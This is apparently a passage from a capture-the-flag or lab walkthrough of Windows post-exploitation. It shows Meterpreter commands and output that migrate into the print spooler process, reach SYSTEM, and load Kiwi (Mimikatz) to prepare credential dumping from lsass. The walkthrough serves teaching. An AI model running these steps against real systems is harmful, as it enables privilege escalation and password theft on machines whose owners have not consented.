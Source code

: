```
                                                                      .exe



```

In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell.

We migrate to this process now with the command `migrate -N PROCESS_NAME` :

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1908 to 1368...                                                                                                    
[*] Migration completed successfully.                                                                                                 
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz) :
```
 meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1908 to 1368...                                                                                                    
[*] Migration completed successfully.                                                                                                 
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM                                                                                                  
meterpreter > load kiwi                                                                                                               
Loading extension kiwi...                                                                                                             
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)                                                                                     
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                           
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                              
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

```
